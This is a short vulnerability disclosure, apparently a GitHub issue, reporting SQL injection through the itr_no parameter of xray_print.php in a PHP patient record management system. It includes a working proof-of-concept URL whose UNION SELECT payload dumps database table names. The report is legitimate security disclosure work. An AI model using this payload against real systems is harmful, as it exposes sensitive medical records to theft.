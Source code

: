 # patient-record-management-system-in-php has sql injection in xray_print.php

## supplier 
https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette
## Vulnerability parameter
xray_print.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in xray_print.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $itr_no parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/924d8873-7ed3-437c-b70e-474ac211a124)



## POC

asset the url，can get the sql reqult on the page.

```
http://healthcarepatientrecordmanagementsystem/xray_print.php?itr_no=1'+union+select+"","","","","","","","","","","","","","","","",(SELECT+GROUP_CONCAT(table_name,"\n")+FROM+information_schema.tables+WHERE+table_schema=DATABASE()),"","","","","","","","","","",""--+
```

**Result**

![Image](https://github.com/user-attachments/assets/da004ec0-a719-44e6-8d46-8bade2099754)
